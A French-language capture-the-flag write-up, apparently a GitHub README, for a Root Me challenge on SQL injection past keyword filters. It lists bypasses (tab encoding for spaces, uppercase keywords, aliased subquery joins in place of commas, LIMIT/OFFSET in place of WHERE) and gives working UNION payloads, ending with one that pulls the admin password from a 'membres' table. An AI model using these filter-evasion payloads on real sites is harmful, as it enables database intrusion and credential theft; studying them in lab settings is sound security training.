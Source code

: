 # -SQL-injection---Contournement-de-filtres
 SQL injection - Contournement de filtres (challenge root me 80pt)

Description courte : Nous allons injecter dans le paramètre id ici.

![image](https://github.com/user-attachments/assets/2f36be91-3947-4aa1-a9bf-ecb908886649)

Les caractères filtrés et leurs contournements :

    Espaces → remplacer par %09 (tabulation)

    "select" → remplacer par "SELECT" (majuscules)

    "union" → remplacer par "UNION" (majuscules)

    "join" → remplacer par "JOIN" (majuscules)

    "select 1,2" (virgule filtrée) → remplacer par :
    (SELECT 1) AS A JOIN (SELECT 2) AS B
    (Note : Sans alias pour les sous-requêtes, erreur "Every derived table must have its own alias")

    "where" → remplacer par limit et offset

Indice du code source : la table a 4 colonnes.

![image](https://github.com/user-attachments/assets/eaf32426-edf5-43a6-8e47-34205fab5af8)

      Payload de base :
     0 UNION SELECT * FROM (SELECT 1) AS A JOIN (SELECT 2) AS B JOIN (SELECT 3) AS C JOIN (SELECT 4) AS D

     Version adaptée :
    0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%094)%09AS%09D


![image](https://github.com/user-attachments/assets/718813e2-dffd-4d68-8c11-0f9e1a20fb62)



     Payload final pour récupérer le mot de passe admin :
    0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%09pass%09From%09membres%09LIMIT%091%09OFFSET%090%09)%09AS%09D

![image](https://github.com/user-attachments/assets/3c3be7cf-6dd8-407c-9d02-223343e206f6)



